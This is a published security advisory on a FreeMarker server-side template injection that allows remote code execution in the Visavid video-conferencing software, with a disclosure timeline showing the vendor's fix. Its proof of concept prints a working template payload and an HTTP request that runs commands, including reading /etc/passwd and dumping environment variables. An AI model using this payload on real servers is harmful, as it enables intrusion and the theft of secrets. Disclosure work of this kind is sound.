 ```yaml
---
layout: post
date:   2021-04-27
categories: [advisory]

title:  "Advisory - Visavid remote code execution via SSTI"
advisory:
  product: Visavid
  homepage: https://visavid.de/
  
  vulnerable_version: ["Gateway 1.10.2", "Verwaltung: 1.10.6"]
  fixed_version: ["Gateway 1.10.3", "Verwaltung: 1.10.14"]
  impact_text: HIGH
  impact_score: 8.8
  cvss: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
  found: 2021-04-19
---
```


# Product description
Kommunizieren, präsentieren, fortbilden: Unsere flexible Videokonferenz-Software ist von der Entwicklung bis zum Support zu 100 % Made in Germany und bietet neben Datenschutz und einem hohen Sicherheits-Level auch individuelle Anpassungsmöglichkeiten für unterschiedliche Einsatzbereiche.

[Auctores - visavid](https://auctores.de/software/produkte/)

# Vulnerability overview
The software `visavid` allows an `room` admin to invite other participants via E-Mail messages. After submitting the message it is processed by the `Java` templating engine [FreeMarker](https://freemarker.apache.org/) to create a message with some dynamic data in it. There are some tags listed on the website which can be used. As the user input is not properly validated it is possible to include arbitrary tags and execute code on the server side.

# Proof of concept
The endpoint `/api/verwaltung/rooms/subscriber/nachricht/{uuid}` allows an user to send an invitation E-Mail to other attendees. Both the `subject` and the `body` parameter are processed via the templating engine on the server side. This allows an attacker to execute code on the server using the payload 

```freemarker
<#assign ex=\"freemarker.template.utility.Execute\"?new()>
```


The following requests executes different commands (`id`, `hostname`, `cat /etc/passwd`, `env`):
```http
POST /api/verwaltung/rooms/subscriber/nachricht/{UUID} HTTP/1.1
Host: app.visavid.de
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/hal+json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: Bearer XXX
Content-Length: 521
Origin: https://app.visavid.de
DNT: 1
Connection: close

{
    "signatur": "<p>Informationen nach Art. 13 DSGVO in Bezug auf Visavid finden Sie unter <a href=\"https://visavid.de/datenschutz#Informationspflichten\">https://visavid.de/datenschutz#Informationspflichten</a>.</p>",
    "body": "<p>Einladung:</p>\n<p><#assign ex=\"freemarker.template.utility.Execute\"?new()> ${ ex(\"id\") } \n ${ ex(\"hostname\")} \n ${ ex(\"cat /etc/passwd\")} \n ${ ex(\"env\")}</p>",
    "subject": "Einladung",
    "reply": "{EMAIL}",
    "absender": "{NAME}",
    "testaddress": "test-visavid@domain.test"
}
```
The resulting mail contains the output of the different commands:

![RCE result](/assets/visavid/210419-rce-email.png)

# Timeline
* 2021-04-19: Vendor contacted via security@, asked for a PGP Key / SMIME certificate to encrypt communication
* 2021-04-20: Response from vendor
* 2021-04-20: Report sent
* 2021-04-20: Vendor informed that a temporary hotfix has been applied
* 2021-04-26: Vendor informed that the issue is fixed
* 2021-04-27: Public release of security advisory


# Resources
* [PortSwigger Research - SSTI](https://portswigger.net/research/server-side-template-injection)
* [PortSwigger WebSecurity - SSTI](https://portswigger.net/web-security/server-side-template-injection)
* [PayloadAllTheThing - SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)